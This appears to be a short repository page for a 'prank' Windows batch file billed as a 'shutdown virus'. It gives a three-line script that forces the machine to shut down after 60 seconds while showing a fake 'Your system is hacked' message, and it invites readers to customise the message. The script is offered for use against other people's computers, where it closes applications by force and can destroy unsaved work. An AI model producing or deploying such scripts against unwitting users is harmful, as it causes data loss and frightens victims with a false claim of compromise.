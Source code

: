 # This Is A Prank Bat File Shutdown Virus.


# [Download zip]()


or

```shell
@echo off
echo Message here.
shutdown -s -f -t 60 -c "Your system is hacked by Mr. OCEAN OF ANYTHING."
```

Instead of -- Your system is hacked by Mr. OCEAN OF ANYTHING.-- You Can Write Any Msg Of Ypur Choise